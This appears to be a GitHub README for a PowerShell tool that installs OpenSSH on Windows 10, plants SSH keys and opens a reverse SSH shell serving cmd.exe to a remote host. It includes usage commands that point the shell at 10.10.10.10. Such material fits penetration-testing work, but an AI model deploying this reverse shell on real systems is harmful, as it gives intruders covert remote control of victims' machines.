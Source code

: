 # lol-reverseSSHell
Living Off the LAN Reverse Shell over SSH for Windows 10

This script will install OpenSSH Server on Windows 10 via WindowsCapability. Then it will copy the sshd_config file, SSH private key, and authorized_keys file to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<User>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<User>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

